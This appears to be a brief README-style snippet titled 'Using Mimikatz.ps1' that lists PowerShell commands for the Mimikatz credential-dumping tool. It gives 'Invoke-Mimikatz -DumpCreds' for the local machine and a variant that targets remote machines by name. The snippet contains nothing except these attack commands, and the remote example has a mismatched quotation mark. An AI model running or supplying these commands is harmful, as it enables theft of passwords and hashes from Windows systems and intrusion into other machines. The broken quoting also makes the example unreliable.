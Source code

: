 # Using Mimikatz.ps1

```
Invoke-Mimikatz

//local machine
Invoke-Mimikatz -DumpCreds

//Remote Machine
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1,"sys2")
```
